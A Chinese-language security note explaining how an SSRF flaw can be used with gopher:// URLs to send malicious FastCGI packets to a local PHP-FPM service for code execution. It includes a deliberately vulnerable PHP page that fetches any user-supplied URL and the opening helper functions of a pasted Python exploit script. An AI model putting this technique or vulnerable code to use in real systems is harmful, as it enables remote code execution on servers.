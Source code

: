#### 基本原理

 PHP-FPM开放在公网上的情况是很少的，大部分时候都是启动在本地即监听127.0.0.1:9000地址的。虽然我们没有办法直接对PHP-FPM发起攻击，但是我们可以结合其他漏洞来间接利用。如果目标站点存在SSRF漏洞，那么我们就可以借助SSRF来攻击本地PHP-FPM服务，达到任意代码执行的效果。

Gopher协议

    gopher://<host>:<port>/<gopher-path>_后接TCP数据流

 可以利用Gopher协议来直接发送TCP协议流，从中进行urlencode编码来构造SSRF攻击代码，器中攻击代码就是恶意FastCGI报文

前提为目标站点存在SSRF漏洞

```php
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0); 
    curl_exec($ch);
    curl_close($ch); 
}
$url = $_GET['url'];
curl($url);
?>
```

贴大牛EXP脚本

```python
import socket
import base64
import random
import argparse
import sys
from io import BytesIO
import urllib
# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client
 
PY2 = True if sys.version_info.major == 2 else False
 
 
def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])
 
def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)
 
def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')
 
def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
```